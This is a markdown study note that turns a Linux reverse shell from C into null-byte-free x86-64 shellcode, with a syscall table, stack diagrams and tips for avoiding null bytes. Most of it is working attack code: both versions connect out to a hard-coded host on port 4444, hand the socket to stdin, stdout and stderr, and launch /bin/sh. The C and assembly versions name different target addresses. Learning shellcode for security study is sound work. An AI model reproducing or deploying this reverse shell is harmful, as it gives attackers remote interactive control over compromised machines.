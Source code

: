 ```yaml
---

# 🐚 Reverse Shell: C to Assembly Notes

## 📌 Objective

Create a reverse shell that:

1. Connects to a remote attacker via TCP.
2. Redirects standard input/output/error to the socket.
3. Spawns a shell (`/bin/sh`).

---
```


## 🧠 Original C Code

```c
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main() {
    int socketfd = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(socketfd, (struct sockaddr *)&addr, sizeof(addr));

    dup2(socketfd, 0);
    dup2(socketfd, 1);
    dup2(socketfd, 2);

    execve("/bin/sh", NULL, NULL);
}
```

---

## 🧾 Corresponding Assembly (x86-64, Linux)

```asm
section .text
   global _start
_start:

    ; socket(AF_INET, SOCK_STREAM, 0)
    xor     rax, rax
    mov     al, 41            ; syscall: socket
    xor     rdi, rdi
    mov     dil, 2            ; AF_INET
    xor     rsi, rsi
    mov     sil, 1            ; SOCK_STREAM
    xor     rdx, rdx          ; protocol 0
    syscall                   ; return: sockfd → rax

    ; connect(sockfd, struct sockaddr*, addrlen)
    mov     rdi, rax          ; sockfd → arg1

    xor     rbx, rbx
    mov     rbx, 0x0801A8C0   ; 192.168.1.8 (little endian)
    push    rbx
    push    word 0x5C11       ; port 4444 (0x115c) htons
    push    word 2            ; AF_INET (sa_family)
    xor     rsi, rsi
    mov     rsi, rsp          ; pointer to sockaddr_in → arg2
    xor     rdx, rdx
    mov     dl, 16            ; size of sockaddr_in → arg3
    xor     rax, rax
    mov     al, 42            ; syscall: connect
    syscall

    ; dup2(sockfd, 0), dup2(sockfd, 1), dup2(sockfd, 2)
    xor     rax, rax
    mov     al, 33            ; syscall: dup2
    xor     rsi, rsi          ; fd 0
    syscall

    xor     rax, rax
    mov     al, 33
    inc     rsi               ; fd 1
    syscall

    xor     rax, rax
    mov     al, 33
    inc     rsi               ; fd 2
    syscall

    ; execve("/bin/sh", NULL, NULL)
    xor     rax, rax
    push    rax               ; null terminator
    xor     rbx, rbx
    mov     rbx, 0x68732f6e69622f2f ; "//bin/sh" in reverse
    push    rbx
    mov     al, 59            ; syscall: execve
    mov     rdi, rsp          ; filename
    xor     rsi, rsi          ; argv
    xor     rdx, rdx          ; envp
    syscall
```

---

## 🧮 Syscall Reference Table

| Function    | Syscall # | rdi (arg1)          | rsi (arg2)            | rdx (arg3)      |
| ----------- | --------- | ------------------- | --------------------- | --------------- |
| `socket()`  | 41        | domain (AF\_INET=2) | type (SOCK\_STREAM=1) | protocol (0)    |
| `connect()` | 42        | socketfd            | struct sockaddr ptr   | length (16)     |
| `dup2()`    | 33        | oldfd               | newfd                 | -               |
| `execve()`  | 59        | filename ptr        | argv ptr (NULL)       | envp ptr (NULL) |

---

## 📊 Stack Visualization (for sockaddr\_in and /bin/sh)

### `sockaddr_in` (struct pushed on stack)

```
Top of stack →
+-------------------+
| sa_family = 0x02  |  (word)
+-------------------+
| sin_port = 0x115C |  (word) → 4444 (network byte order)
+-------------------+
| sin_addr = 0xC0A80108 | → 192.168.1.8 (little endian)
+-------------------+
```

### `execve("/bin/sh", NULL, NULL)`

```
Top of stack →
+---------------------+
| 0x00 (null)         |  ← null terminator
+---------------------+
| "//bin/sh"          |  ← pushed as qword
+---------------------+
```

---

## 🧠 Notes on Register Usage

* **rax**: Syscall number
* **rdi**: 1st argument to syscall
* **rsi**: 2nd argument to syscall
* **rdx**: 3rd argument to syscall
* **rsp**: Stack pointer, used to pass data for structs and strings
* **rbx**: Temporary register for IP address or string construction

---

## ✅ Key Takeaways

* Avoid null bytes in shellcode by pushing data directly to the stack.
* Use immediate values and little-endian representation for IPs and ports.
* Use `xor` for zeroing registers (shorter and null-free).
* Reuse `rsi` to loop through `dup2()` for stdin, stdout, stderr.
* `execve()` must have all three arguments: path, argv (NULL), envp (NULL).

---

